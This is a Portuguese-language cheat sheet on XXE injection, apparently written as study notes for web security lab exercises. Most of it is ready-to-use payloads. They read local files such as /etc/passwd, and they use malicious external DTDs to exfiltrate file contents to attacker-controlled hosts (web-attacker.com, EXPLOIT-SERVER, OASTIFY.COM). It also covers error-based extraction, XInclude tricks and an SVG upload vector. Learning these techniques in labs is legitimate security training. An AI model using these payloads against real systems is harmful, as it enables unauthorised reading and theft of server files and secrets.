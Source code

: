 # XXE Injection

Probabilidade: $${\color{red}alta}$$.

Escaneie as requisições que envolvem XML com o Burp, seja um scan ativo, seja uma porção específica.

Assim como o SSRF, normalmente aparece no endpoint `/product/stock`.

Também pode aparecer em parâmetros da requisição, mas é menos comum.

![image](https://github.com/user-attachments/assets/b0ce8d8e-5af4-4227-890a-2b2fbcdd8aac)

Payload genérico para ler arquivos:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId>
<storeId>1</storeId></stockCheck>
```

<br>

## Laboratórios

**Blind XXE with Out-of-Band Interaction via XML Parameter Entities**
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

<br>
<br>

**Exploiting Blind XXE to Exfiltrate Data Using a Malicious External DTD**

No servidor de exploit:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://EXPLOIT-SERVER/?x=%file;'>">
%eval;
%exfiltrate;
```

Na requisição:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://YOUR-DTD-URL"> %xxe; ]>
```

<br>

Outra opção, no servidor de exploit:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://EXPLOIT-SERVER/?%file;'>">
```

Na requisição:
```
<!DOCTYPE foo [<!ENTITY % loadDtd SYSTEM "http://YOUR-DTD-URL"> %loadDtd; %stack; %exfil;]>
```

<br>

Versão adaptada:
```
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://OASTIFY.COM/?x=%file;'>">
%eval;
%exfil;
```

<br>
<br>

**Exploiting Blind XXE to Retrieve Data via Error Messages**

No servidor de exploit:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Na requisição:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

<br>
<br>

Exploiting XInclude to Retrieve Files
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

Versão adaptada:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>

# URL Encoded
<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/hostname"/></foo>
```

<br>
<br>

**Exploiting XXE via Image File Upload**

Se você fizer o upload de um arquivo `.jpg` e mudar o conteúdo, lembre-se the alterar a extensão e o content type para `image/svg+xml`.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
```
